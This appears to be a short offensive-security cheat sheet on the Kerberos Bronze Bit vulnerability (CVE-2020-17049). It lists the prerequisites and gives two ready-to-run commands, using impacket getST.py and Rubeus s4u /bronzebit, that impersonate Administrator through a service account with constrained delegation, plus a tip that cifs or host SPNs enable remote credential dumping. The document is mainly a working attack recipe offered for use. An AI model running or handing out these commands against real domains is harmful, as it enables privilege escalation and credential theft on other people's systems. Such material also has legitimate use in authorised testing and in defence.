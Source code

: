 # Kerberos Bronze Bit CVE-2020-17049

### An attacker can impersonate users which are not allowed to be delegated. This includes members of the Protected Users group and any other users explicitly configured as sensitive and cannot be delegated.

## WARNING! Patched Error Message : [-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)

## Requirements

#### 1) Service account's password hash

#### 2) Service account's with Constrained Delegation or Resource Based Constrained Delegation

## Exploitation

    getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -hashes :$Controlled_service_NThash $Domain/$Controlled_service_account

    ./Rubeus.exe s4u /bronzebit /user:<service_account> /rc4:<service_account_hash> /dc:dc.domain.local /impersonateuser:Administrator /domain:domain.local /altservice:cifs/target.domain.local /nowrap

### The SPN (ServicePrincipalName) set will have an impact on what services will be reachable. For instance, cifs/target.domain or host/target.domain will allow most remote dumping operations
